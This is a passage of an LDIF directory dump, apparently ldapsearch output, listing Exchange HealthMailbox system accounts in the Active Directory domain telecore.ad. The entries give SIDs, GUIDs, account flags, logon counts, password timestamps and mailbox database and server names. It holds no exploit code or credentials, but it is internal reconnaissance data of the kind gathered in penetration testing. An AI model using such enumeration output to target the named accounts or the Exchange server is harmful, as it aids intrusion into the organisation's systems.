 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111126.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526906239136334143908864186532267169
msExchUMDtmfMap: lastNameFirstName:4325846245269397786245269328222731761897377
msExchUMDtmfMap: firstNameLastName:4325846245269397786245269328222731761897377
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailbox062391d6ff414d9088641865db267169
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: 0uctmJrkz0+CWyTfR4PbqA==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchUserCulture: en-US
msExchMobileMailboxFlags: 1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: UKGmgsNEnEy4vlj/xkKEtA==
msExchGroupSecurityFlags: 0
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailboxd00a70a328b04ca894b64b95426f0293, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailboxd00a70a328b04ca894b64b95426f0293,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailboxd00a70a328b04ca894b64b95426f0293
distinguishedName: CN=HealthMailboxd00a70a328b04ca894b64b95426f0293,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111127.0Z
whenChanged: 20251126050131.0Z
displayName: HealthMailbox-Ex-Srv-Mailbox-Database-1520821686
uSNCreated: 96550
uSNChanged: 152896
proxyAddresses: SMTP:HealthMailboxd00a70a328b04ca894b64b95426f0293@telecore.ad
proxyAddresses: SIP:HealthMailboxd00a70a328b04ca894b64b95426f0293@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailboxd00a70a328b04ca894b64b95426f0293
objectGUID:: NYXSytbD5UCr4IYND+sRuw==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 134027381827000675
pwdLastSet: 134086068852691341
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxafQQAAA==
accountExpires: 9223372036854775807
logonCount: 934
sAMAccountName: HealthMailboxd00a70a
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=7d95c077be844109b71bba6357edd123-HealthMailb
userPrincipalName: HealthMailboxd00a70a328b04ca894b64b95426f0293@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 134086068910035257
mail: HealthMailboxd00a70a328b04ca894b64b95426f0293@telecore.ad
homeMDB: CN=Mailbox Database 1520821686,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-Mailbox-Database-152
 0821686
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1520821686,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111127.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526930027023282042289426429542630293
msExchUMDtmfMap: lastNameFirstName:4325846245269397786245269328222731520821686
msExchUMDtmfMap: firstNameLastName:4325846245269397786245269328222731520821686
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailboxd00a70a328b04ca894b64b95426f0293
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: qShrqjPmtkCsq7SPSUS0dA==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchUserCulture: en-US
msExchMobileMailboxFlags: 1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: owlBzW835EmP7ZoKZ+5NEQ==
msExchGroupSecurityFlags: 0
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailbox32a2a0a489ac4a9ab4163f4d879cf529, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailbox32a2a0a489ac4a9ab4163f4d879cf529,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailbox32a2a0a489ac4a9ab4163f4d879cf529
distinguishedName: CN=HealthMailbox32a2a0a489ac4a9ab4163f4d879cf529,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111127.0Z
whenChanged: 20251126050131.0Z
displayName: HealthMailbox-Ex-Srv-Mailbox-Database-1760216688
uSNCreated: 96560
uSNChanged: 152897
proxyAddresses: SMTP:HealthMailbox32a2a0a489ac4a9ab4163f4d879cf529@telecore.ad
proxyAddresses: SIP:HealthMailbox32a2a0a489ac4a9ab4163f4d879cf529@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailbox32a2a0a489ac4a9ab4163f4d879cf529
objectGUID:: tw0O1fS5IkSLzQA7Fh4TbQ==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 134033574611771906
pwdLastSet: 134086068852535124
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxafwQAAA==
accountExpires: 9223372036854775807
logonCount: 1418
sAMAccountName: HealthMailbox32a2a0a
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=40661f43728640289a9e7dc3b680cad6-HealthMailb
userPrincipalName: HealthMailbox32a2a0a489ac4a9ab4163f4d879cf529@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 134086068910035257
mail: HealthMailbox32a2a0a489ac4a9ab4163f4d879cf529@telecore.ad
homeMDB: CN=Mailbox Database 1760216688,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-Mailbox-Database-176
 0216688
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1760216688,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111126.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526932222024892242922416334387923529
msExchUMDtmfMap: lastNameFirstName:4325846245269397786245269328222731760216688
msExchUMDtmfMap: firstNameLastName:4325846245269397786245269328222731760216688
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailbox32a2a0a489ac4a9ab4163f4d879cf529
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: BjXGXVHRCk674puIsrs11A==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchUserCulture: en-US
msExchMobileMailboxFlags: 1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: u8FBhgKfrUmZetIAY1yueg==
msExchGroupSecurityFlags: 0
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailbox79d6e62d99c24085930b10cacaa8bf50, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailbox79d6e62d99c24085930b10cacaa8bf50,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailbox79d6e62d99c24085930b10cacaa8bf50
distinguishedName: CN=HealthMailbox79d6e62d99c24085930b10cacaa8bf50,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111127.0Z
whenChanged: 20251126050130.0Z
displayName: HealthMailbox-Ex-Srv-Mailbox-Database-1371764866
uSNCreated: 96568
uSNChanged: 152895
proxyAddresses: SMTP:HealthMailbox79d6e62d99c24085930b10cacaa8bf50@telecore.ad
proxyAddresses: SIP:HealthMailbox79d6e62d99c24085930b10cacaa8bf50@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailbox79d6e62d99c24085930b10cacaa8bf50
objectGUID:: E5neRoPkO0W0jSfRK6z9Tg==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 134086247614566480
pwdLastSet: 134086068852222773
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxagAQAAA==
accountExpires: 9223372036854775807
logonCount: 6694
sAMAccountName: HealthMailbox79d6e62
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=75f9099b090445c19c39b7565744ad1b-HealthMailb
userPrincipalName: HealthMailbox79d6e62d99c24085930b10cacaa8bf50@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 134086068909723442
mail: HealthMailbox79d6e62d99c24085930b10cacaa8bf50@telecore.ad
homeMDB: CN=Mailbox Database 1371764866,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-Mailbox-Database-137
 1764866
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1371764866,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111127.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526979363623992240859302102222282350
msExchUMDtmfMap: lastNameFirstName:4325846245269397786245269328222731371764866
msExchUMDtmfMap: firstNameLastName:4325846245269397786245269328222731371764866
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailbox79d6e62d99c24085930b10cacaa8bf50
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: folgW/wA5kqPohz+GXoXHw==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchUserCulture: en-US
msExchMobileMailboxFlags: 1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: SSay7KdelkC4BKZABmxswA==
msExchGroupSecurityFlags: 0
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailbox9cf17399792d485ba30357d93d11f09f, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailbox9cf17399792d485ba30357d93d11f09f,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailbox9cf17399792d485ba30357d93d11f09f
distinguishedName: CN=HealthMailbox9cf17399792d485ba30357d93d11f09f,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111202.0Z
whenChanged: 20251126050133.0Z
displayName: HealthMailbox-Ex-Srv-001
uSNCreated: 96602
uSNChanged: 152898
proxyAddresses: SMTP:HealthMailbox9cf17399792d485ba30357d93d11f09f@telecore.ad
proxyAddresses: SIP:HealthMailbox9cf17399792d485ba30357d93d11f09f@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailbox9cf17399792d485ba30357d93d11f09f
objectGUID:: rE5y9lwm2UWQGEhJjs6Drg==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 134086068091753944
lastLogoff: 0
lastLogon: 134086247766910200
pwdLastSet: 134086068855503890
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxagQQAAA==
accountExpires: 9223372036854775807
logonCount: 2204
sAMAccountName: HealthMailbox9cf1739
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=853167e1fe2f4a87af761bd4ec7fbebf-HealthMailb
userPrincipalName: HealthMailbox9cf17399792d485ba30357d93d11f09f@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 134086068931597992
mail: HealthMailbox9cf17399792d485ba30357d93d11f09f@telecore.ad
homeMDB: CN=Mailbox Database 1371764866,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-001
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1371764866,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111201.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526992317399792348522303573933113093
msExchUMDtmfMap: lastNameFirstName:432584624526939778001
msExchUMDtmfMap: firstNameLastName:432584624526939778001
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailbox9cf17399792d485ba30357d93d11f09f
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: WOpscbCXNEeurinWLBHYXw==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMobileMailboxFlags: 1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: V9B71bWg502E7178JbXOog==
msExchGroupSecurityFlags: 0
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailboxfd08c44ec67444f8b93f71108a0e45f9, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailboxfd08c44ec67444f8b93f71108a0e45f9,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailboxfd08c44ec67444f8b93f71108a0e45f9
distinguishedName: CN=HealthMailboxfd08c44ec67444f8b93f71108a0e45f9,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111220.0Z
whenChanged: 20251126050305.0Z
displayName: HealthMailbox-Ex-Srv-002
uSNCreated: 96621
uSNChanged: 152913
proxyAddresses: SMTP:HealthMailboxfd08c44ec67444f8b93f71108a0e45f9@telecore.ad
proxyAddresses: SIP:HealthMailboxfd08c44ec67444f8b93f71108a0e45f9@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailboxfd08c44ec67444f8b93f71108a0e45f9
objectGUID:: q+kTX5VvBEqlWE0LFysGbw==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 134033310220190490
lastLogoff: 0
lastLogon: 134086239353628934
pwdLastSet: 134086068856285305
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaggQAAA==
accountExpires: 9223372036854775807
logonCount: 2140
sAMAccountName: HealthMailboxfd08c44
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=f722ab6e198d4d0684a1e94f20ececac-HealthMailb
userPrincipalName: HealthMailboxfd08c44ec67444f8b93f71108a0e45f9@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 134086069852535407
mail: HealthMailboxfd08c44ec67444f8b93f71108a0e45f9@telecore.ad
homeMDB: CN=Mailbox Database 1520821686,CN=Databases,CN=Exchange Administrativ
 e Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telecore Org,CN=Microso
 ft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchAddressBookFlags: 1
msExchCalendarLoggingQuota: 6291456
msExchVersion: 88218628259840
msExchPoliciesExcluded: {26491cfc-9e50-4857-861b-0cb8df22b5d7}
internetEncoding: 0
msExchHideFromAddressLists: TRUE
msExchUserAccountControl: 0
msExchDumpsterQuota: 31457280
protocolSettings:: UmVtb3RlUG93ZXJTaGVsbMKnMQ==
msExchArchiveName: In-Place Archive -HealthMailbox-Ex-Srv-002
msExchProvisioningFlags: 0
msExchArchiveDatabaseLink: CN=Mailbox Database 1520821686,CN=Databases,CN=Exch
 ange Administrative Group (FYDIBOHF23SPDLT),CN=Administrative Groups,CN=Telec
 ore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad
msExchWhenMailboxCreated: 20250912111220.0Z
msExchModerationFlags: 0
msExchHomeServerName: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBO
 HF23SPDLT)/cn=Configuration/cn=Servers/cn=EX-SRV
msExchTextMessagingState: 302120705
msExchTextMessagingState: 16842751
msExchELCMailboxFlags: 2
msExchArchiveQuota: 104857600
msExchUMDtmfMap: emailAddress:432584624526933082443267444382933711082034539
msExchUMDtmfMap: lastNameFirstName:432584624526939778002
msExchUMDtmfMap: firstNameLastName:432584624526939778002
msExchDumpsterWarningQuota: 20971520
msExchRBACPolicyLink: CN=Default Role Assignment Policy,CN=Policies,CN=RBAC,CN
 =Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,
 DC=ad
mailNickname: HealthMailboxfd08c44ec67444f8b93f71108a0e45f9
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchArchiveGUID:: U5X4VHy+RU6nOyZAfWh6uw==
msExchMDBRulesQuota: 256
msExchMailboxSecurityDescriptor:: AQAEgBQAAAAgAAAAAAAAACwAAAABAQAAAAAABQoAAAAB
 AQAAAAAABQoAAAAEABwAAQAAAAACFAABAAIAAQEAAAAAAAUKAAAA
msExchRecipientTypeDetails: 549755813888
msExchArchiveWarnQuota: 94371840
msExchUMEnabledFlags2: -1
msExchMobileMailboxFlags: 1
msExchMailboxTemplateLink: CN=Default MRM Policy,CN=Retention Policies Contain
 er,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tele
 core,DC=ad
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchMailboxGuid:: nqYHu+oImkqzzq65Cmpjug==
msExchGroupSecurityFlags: 0
mDBUseDefaults: TRUE
msExchBypassAudit: FALSE

# HealthMailboxa1cc1051a2034b9cada57a2258a13900, Monitoring Mailboxes, Microsof
 t Exchange System Objects, telecore.ad
dn: CN=HealthMailboxa1cc1051a2034b9cada57a2258a13900,CN=Monitoring Mailboxes,C
 N=Microsoft Exchange System Objects,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: HealthMailboxa1cc1051a2034b9cada57a2258a13900
distinguishedName: CN=HealthMailboxa1cc1051a2034b9cada57a2258a13900,CN=Monitor
 ing Mailboxes,CN=Microsoft Exchange System Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250912111232.0Z
whenChanged: 20251126050152.0Z
displayName: HealthMailbox-Ex-Srv-003
uSNCreated: 96635
uSNChanged: 152905
proxyAddresses: SMTP:HealthMailboxa1cc1051a2034b9cada57a2258a13900@telecore.ad
proxyAddresses: SIP:HealthMailboxa1cc1051a2034b9cada57a2258a13900@telecore.ad
garbageCollPeriod: 1209600
name: HealthMailboxa1cc1051a2034b9cada57a2258a13900
objectGUID:: nejPAk4kYEGcKwiednjRLA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 134086248143629019
pwdLastSet: 134086068857222713
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxagwQAAA==
accountExpires: 9223372036854775807
logonCount: 2177
sAMAccountName: HealthMailboxa1cc105
sAMAccountType: 805306368
showInAddressBook: CN=All Recipients(VLV),CN=All System Address Lists,CN=Addre
 ss Lists Container,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Confi
 guration,DC=telecore,DC=ad
legacyExchangeDN: /o=Telecore Org/ou=Exchange Administrative Group (FYDIBOHF23
 SPDLT)/cn=Recipients/cn=24a854680f9a4d8987d0cb930f738091-HealthMailb
userPrincipalName: HealthMailboxa1cc1051a2034b9cada57a2258a13900@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 134086069120660395
